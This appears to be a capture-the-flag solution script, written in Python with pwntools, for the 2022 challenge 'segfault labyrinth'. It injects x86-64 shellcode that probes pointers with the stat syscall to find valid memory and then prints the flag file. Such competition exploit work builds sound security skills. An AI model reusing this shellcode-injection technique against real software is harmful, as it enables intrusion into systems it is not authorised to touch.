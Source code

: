 ```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./challenge', checksec=False)

if args.REMOTE:
    p = remote('segfault-labyrinth.2022.ctfcompetition.com', 1337)
else:
    p = process(binary.path)

shellcode = asm(f'''
mov r15, rdi
mov r14, 10
loop1:
    dec r14
    lea rdi, [rip + filename]
    mov r13, 16
    loop2:
        dec r13
        mov rsi, qword ptr [r15 + r13*8]
        // need to skip over the 16 pointers for our stat buf
        add rsi, 16*8
        mov eax, {constants.SYS_stat}
        syscall
        test rax, rax
        jne loop2
    test r14, r14
    je end
    mov r15, qword ptr [r15 + r13*8]
    jmp loop1
end:
mov rdi, 1
mov rsi, qword ptr [r15 + r13*8]
mov rdx, 100
mov eax, {constants.SYS_write}
syscall
xor rdi, rdi
mov eax, {constants.SYS_exit}
syscall
filename:
''')

if args.D: print(disasm(shellcode))
shellcode += b'flag.txt'
assert(len(shellcode) < 0x1000)
p.sendafter(b'Labyrinth\n',p64(len(shellcode)))
p.send(shellcode)
_ = p.recvline().decode().strip()
p.close()
print(_)
```

